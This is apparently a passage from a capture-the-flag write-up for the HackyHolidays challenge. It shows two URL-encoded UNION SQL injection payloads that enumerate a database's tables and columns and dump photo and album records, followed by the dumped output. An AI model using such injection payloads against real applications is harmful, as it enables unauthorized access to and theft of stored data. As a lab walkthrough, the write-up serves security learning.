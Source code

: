 After some manual fiddling, I ascertained that there were two tables, but sadly no sensitive data available. 

I used the following to dump the tables and columns:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20ALL%20SELECT%201,%27BLAH%27,group_concat(concat(table_name,%27:%27,column_name))%20from%20information_schema.columns%20WHERE%20table_schema=%27recon%27;/*
```

Here's an example of most of the database content being dumped:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20ALL%20SELECT%201,%27BLAH%27,group_concat(concat(%27\n\nPhoto%20ID:%20%27,%20photo.id,%27%20\nPhoto:%27,photo,%27%20%20\nAlbum%20hash:%20%27,%20hash,%27\nAlbum%20ID:%20%27,album.id))%20from%20photo%20LEFT%20JOIN%20album%20on%20album.id%3dphoto.album_id%20limit%201;/*
```

The above spat out:

```
Photo ID: 1 
Photo:0a382c6177b04386e1a45ceeaa812e4e.jpg  
Album hash: 3dir42
Album ID: 1,

Photo ID: 2 
Photo:1254314b8292b8f790862d63fa5dce8f.jpg  
Album hash: 3dir42
Album ID: 1,

Photo ID: 3 
Photo:32febb19572b12435a6a390c08e8d3da.jpg  
Album hash: 59grop
Album ID: 2,

Photo ID: 4 
Photo:db507bdb186d33a719eb045603020cec.jpg  
Album hash: jdh34k
Album ID: 3,

Photo ID: 5 
Photo:9b881af8b32ff07f6daada95ff70dc3a.jpg  
Album hash: jdh34k
Album ID: 3,

Photo ID: 6 
Photo:13d74554c30e1069714a5a9edda8c94d.jpg  
Album hash: jdh34k
Album ID: 3
```

At this point it looked like there was nothing else in the database to squeeze out.
